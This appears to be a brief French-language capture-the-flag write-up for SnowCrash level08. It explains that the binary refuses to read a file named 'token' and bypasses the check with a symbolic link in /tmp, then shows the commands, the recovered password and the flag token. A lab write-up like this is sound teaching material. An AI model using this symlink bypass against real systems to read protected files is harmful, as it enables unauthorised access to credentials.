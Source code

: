 en decompilant on peux voir qu'il lis un fichier que si sont nom est different de token, il suffit donc de faire un lien symbolique de token avec un autre nom de fichier dans tmp

~$ ln -s /home/user/level08/token /tmp/link
~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean

~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
